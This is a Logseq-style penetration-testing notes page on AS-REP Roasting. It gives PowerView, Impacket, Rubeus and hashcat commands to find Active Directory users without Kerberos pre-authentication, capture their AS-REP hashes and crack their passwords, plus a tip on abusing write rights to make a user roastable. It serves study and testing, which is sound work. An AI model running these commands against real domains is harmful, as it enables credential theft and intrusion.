 alias:: ASREPRoast
public:: true

- In case the [Kerberos Pre-Authentication](((655b158a-a666-41e0-8076-e59942a7bb20))) is not enabled for one or more domain users, an [AS-REQ](((655b1c01-e1e1-4be0-b245-ff8c9482df38))) can be forged without knowing their password (or the hash) and sent to KDC on their behalf.
- Once the [AS-REP](((655b1795-7a37-4e7f-b428-6c9a34ab2cbf))) is returned from the domain controller, [the encrypted part of the response](((655a201b-448f-45dc-a8b7-2c8978dde0c2))) can be brute-forced offline to retrieve the user password.
- #+BEGIN_NOTE
  Please note that in order to execute most of the following commands you need be able to query the DC. Hence, you need access to a valid domain user.
  #+END_NOTE
	- From Windows via PowerView
		- Retrieve the list of users with [Kerberos Pre-Authentication disabled](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainUser/).
		  id:: 655cf631-e9b4-4a1f-99d0-45c801c69f8c
		  ```powershell
		  Get-DomainUser -KerberosPreuthNotRequired
		  ```
		  Retrieve the list of users with Kerberos Pre-Authentication disabled **and don't have an expired password**.
		  ```powershell
		  Get-DomainUser -UACFilter DONT_REQ_PREAUTH,NOT_PASSWORD_EXPIRED
		  ```
	- From Linux via [[Impacket GetNPUsers]]
		- id:: 5971e61f-2ed6-4dd2-91a6-1752dfb51de7
		  ```bash
		  impacket-GetNPUsers -dc-ip 192.168.50.70 corp.com/pete
		  ```
- id:: 655cf4a9-95ae-4eb8-be69-cd1fb9b251c6
  #+BEGIN_TIP
  If you have **GenericWrite** or **GenericAll** rights over a target user, you can maliciously [modify their userAccountControl](https://learn.microsoft.com/en-US/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties) to [not require preauth](((655b158a-a666-41e0-8076-e59942a7bb20))), use [[AS-REP Roasting]] , and then reset the value.
  #+END_TIP
- Retrieve ASREPRoast hashes
	- From Linux with [[Impacket GetNPUsers]]
		- id:: 655cf20b-a6e7-4003-8049-8d922905d0b1
		  ```bash
		  impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast corp.com/pete
		  ```
			- `-request` - is specified to request the [TGT](((655a4269-21dc-4947-a21d-5c89e404b561))).
			- `corp.com/pete` - is the domain user from where we can query the DC. We'll need to input his password.
			- `-outputfile hashes.asreproast` - file to save captured hashes.
				- Default output is for [[Hashcat]]. The generate [[JTR]] compatible hash use `--format john`
	- From Windows with [[Rubeus]]
		- id:: 655cf178-e37d-4ab0-9e2b-e16c2ff7c94f
		  ```powershell
		  .\Rubeus.exe asreproast /format:hashcat /outfile:C:\Temp\hashes.asreproast
		  ```
			- By default only users that have the property [*Do not require Kerberos preauthentication*](((655b158a-a666-41e0-8076-e59942a7bb20))) set are processed. For the full `asreproast` command usage [check here](https://github.com/GhostPack/Rubeus#asreproast).
			- `/format:hashcat` - Generate [[Hashcat]] compatible hash, the default output is for [[JTR]].
			- `/outfile:` - file to save captured hashes.
- Crack **Kerberos 5 AS-REP** hashes via [[Hashcat]] with the [`-m 18200`](https://hashcat.net/wiki/doku.php?id=example_hashes) option.
  id:: 655cd6cd-968a-4756-b77f-35c47110ad33
  ```bash
  sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt \
  	-r /usr/share/hashcat/rules/best64.rule --force
  ```
	- `-m 18200` - specifies the correct mode
	- `hashes.asreproast` - is the file with the hashes, as it was output by `impacket-GetNPUsers` or `Rubeus`
	- `rockyou.txt` - the wordlist we want to use
	- `best64.rule` - the rules to apply to the wordlist
	- `--force` - to run `hashcat` in Kali
